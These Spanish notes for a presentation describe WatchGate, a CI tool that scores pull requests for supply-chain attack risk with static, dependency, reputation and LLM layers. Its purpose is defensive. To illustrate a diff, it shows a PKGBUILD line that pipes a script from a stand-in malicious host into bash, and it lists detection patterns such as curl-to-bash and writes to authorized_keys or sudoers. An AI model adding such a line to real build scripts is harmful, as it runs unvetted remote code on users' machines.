




# WatchGate — apuntes para la presentación

Este documento va respondiendo a tus preguntas sobre el proyecto, para que luego puedas montar la presentación con esto.

---

## 1. ¿De qué va el proyecto?

**El problema:** cada vez hay más ataques a la cadena de suministro de software que entran a través de un *pull request* aparentemente normal — no un exploit espectacular, sino un cambio de código que parece legítimo y que un revisor humano aprueba porque confía en el autor o porque el cambio es pequeño y rutinario. Casos reales recientes:

- **XZ Utils (2024):** una puerta trasera en una librería de compresión muy usada, introducida por alguien que se ganó la confianza del proyecto durante *años*, escondida en ficheros de test binarios y scripts de build.
- **Atomic Arch:** más de 400 paquetes del AUR (Arch Linux) comprometidos falsificando la identidad de commit del mantenedor original.
- **prt-scan:** una campaña que usaba IA generativa para crear PRs maliciosos adaptados automáticamente al lenguaje de cada proyecto objetivo, robando secretos de GitHub Actions.

En los tres casos, la revisión humana sola no bastó: fatiga del revisor, sesgo de confianza hacia colaboradores habituales, y payloads diseñados para no destacar en un diff.

**La solución:** WatchGate es una herramienta que se engancha al pipeline de CI/CD (como una GitHub Action) y analiza cada PR con **cuatro señales independientes**, combinándolas en una puntuación de riesgo de 0 a 100 con semáforo (verde/amarillo/rojo), explicado capa por capa — no es una caja negra, el revisor humano ve *por qué* se marcó algo como sospechoso.

```
[AMARILLO] WatchGate: Riesgo medio (47/100)

  Estática         20/100  (peso 0.25)
  Dependencias     10/100  (peso 0.20)
  Reputación       40/100  (peso 0.15)
  Semántica (LLM)  85/100  (peso 0.40)

Justificación (capa semántica):
  "El cambio añade una llamada de red a un dominio externo no
   declarado, activada durante el proceso de build."

-> Se recomienda revisión humana reforzada antes de fusionar.
```

---

## 2. Las cuatro señales (capas de análisis)

| Capa | Qué mira | Cómo |
|---|---|---|
| **Estática** | Patrones de código peligrosos: `eval`/`exec` sobre datos no literales, `curl \| bash`, escritura a rutas sensibles (`authorized_keys`, `sudoers`), blobs ofuscados en base64 | Semgrep + reglas YARA |
| **Dependencias** | Paquetes nuevos, *typosquatting* (nombres casi idénticos a paquetes populares), CVEs conocidas | Consulta a OSV + comparación de distancia de texto |
| **Reputación** | Antigüedad de la cuenta, contribuciones previas al repo, si el email/firma del commit cuadra con lo verificado por la plataforma | Reglas explícitas (no ML) sobre metadata que ya resuelve el adaptador |
| **Semántica (LLM)** | La *intención* real del cambio, con independencia de quién parezca haberlo firmado (los atacantes falsifican nombre/email) | Un LLM con contexto de casos de ataque conocidos (RAG) y herramientas acotadas para investigar |

Cada capa es un módulo independiente e intercambiable: se puede desactivar una capa por proyecto, o sustituir el proveedor de LLM, sin tocar el resto del sistema.

---

## 3. Arquitectura de alto nivel



Puntos clave de este diseño:

- El **núcleo** (capas + orquestador + agregador) no sabe nada de GitHub, GitLab ni de ningún proveedor de LLM concreto — solo trabaja con un `diff` normalizado. Esto permite reusar el mismo núcleo con distintos adaptadores.
- Las 4 capas corren **en paralelo** (no una detrás de otra), para no penalizar el tiempo de respuesta del PR.
- El **agregador** hace una media ponderada de los `risk_score` de cada capa; si una capa se desactiva o falla, las demás se renormalizan para no perder la escala 0-100.

---

## 4. Detalle: cómo funciona la capa semántica (la más compleja)



Ideas importantes aquí:

- El LLM **no decide solo con lo que ve**: puede pedir hasta 3 "herramientas" para investigar (por ejemplo, mirar si un paquete tiene vulnerabilidades conocidas, o leer un fichero completo referenciado en el diff), con un límite duro para controlar el coste.
- El **RAG** le da al LLM contexto de casos reales documentados (XZ Utils, Atomic Arch, prt-scan, técnicas MITRE ATT&CK) para que reconozca patrones parecidos, sin tener que "saberlo" de memoria.
- Hay **control de coste**: caché de resultados por diff (para no re-analizar lo mismo dos veces) y presupuesto mensual por repositorio.

---

## 5. Estructura del equipo y del código

El proyecto se reparte en tres líneas de trabajo, cada una dueña de un pedazo autocontenido:



Ahora mismo está implementada y testeada la **Fase 0** (los contratos de datos compartidos) y la **Línea 2** completa (reputación + semántica, con RAG y el cliente LLM). Las otras dos líneas todavía están por implementar.

---

---

## 6. Preguntas

### 6.1 ¿Qué es exactamente un "diff"?

Un **diff** es, literalmente, la diferencia entre dos versiones de un código — lo que ves en la pestaña "Files changed" de un PR de GitHub: qué líneas se han añadido, cuáles se han borrado, qué ficheros son nuevos o se han eliminado o renombrado.

Ejemplo de diff tal cual lo generaría git (esto es texto plano):

```diff
--- a/PKGBUILD
+++ b/PKGBUILD
@@ -12,6 +12,8 @@ package() {
   install -Dm755 "$pkgname" "$pkgdir/usr/bin/$pkgname"
+  curl -s http://setup.malicious-cdn.example/setup.sh | bash
 }
```

Las líneas con `+` son las que se añaden, las de `-` las que se quitan. Eso de ahí arriba **es** un diff de verdad: una línea añadida a un script de instalación que descarga y ejecuta código externo.

En WatchGate, en vez de trabajar con ese texto plano suelto, lo primero que se hace es convertirlo en una estructura de datos propia llamada `NormalizedDiff` (`watchgate/core/models.py`), que es un objeto con:

- `base_sha` / `head_sha`: los dos commits que se comparan (el "antes" y el "después").
- `files`: lista de ficheros tocados, cada uno con su ruta, si es nuevo/modificado/borrado/renombrado, y el propio hunk de texto (como el del ejemplo de arriba).
- `commit_messages` y `authors`: los mensajes de commit y quién los firmó.

¿Por qué convertirlo a esta estructura en vez de pasar el texto suelto por todo el sistema? Porque así **todas las capas de análisis reciben exactamente lo mismo**, con la misma forma, venga de GitHub, GitLab o de un git interno de empresa — es el contrato común del que hablábamos en la Fase 0. El adaptador de cada plataforma (`diffparser.py`) es el único sitio que sabe convertir "un PR de verdad" en este `NormalizedDiff`; el resto del sistema nunca toca git directamente.

### 6.2 En el RAG, ¿la query la hace el LLM?

Buena pregunta, y la respuesta es que **no** — al menos no en el diseño actual, y es importante distinguir esto de las *tools*, que sí las decide el LLM.

Hay dos patrones distintos de RAG y este proyecto usa el más simple de los dos:



En `watchgate/core/layers/_semantic/layer.py`, el orden real es:

1. Se coge el diff y se genera un resumen corto (nombres de fichero + primeras líneas de cada hunk).
2. **Antes** de construir el prompt, se llama a `retrieve_relevant_context(resumen)` — esto es código Python normal, sin ningún LLM de por medio, que convierte ese resumen en un vector y busca los 3 fragmentos más parecidos en la base de datos de casos conocidos (XZ Utils, Atomic Arch, prt-scan...).
3. Esos 3 fragmentos se pegan dentro del prompt de sistema, en la sección "Casos de ataque conocidos recuperados como referencia".
4. **Ahora sí** se llama al LLM, que ya recibe ese contexto servido — no tiene que pedirlo ni decidir buscarlo.

O sea: el RAG es un paso previo y automático, no una decisión del modelo.

**Esto es distinto de las 3 *tools*** (`lookup_package_registry`, `get_commit_history`, `fetch_referenced_file`), que sí son agentic de verdad: ahí el LLM ve en su prompt que existen esas herramientas disponibles, y **él decide** si las necesita o no para responder (hasta un máximo de 3 llamadas). Por ejemplo, si el diff menciona un paquete nuevo raro, el LLM puede pedir "quiero consultar si este paquete tiene vulnerabilidades conocidas" antes de dar su veredicto final.

Así que hay dos mecanismos de "traer más contexto" en la capa semántica, y son conceptualmente distintos:
- **RAG** = contexto histórico, siempre se busca igual, el sistema decide.
- **Tools** = investigación puntual sobre este PR en concreto, el LLM decide si la pide.

*(Sigo añadiendo aquí lo que me preguntes.)*
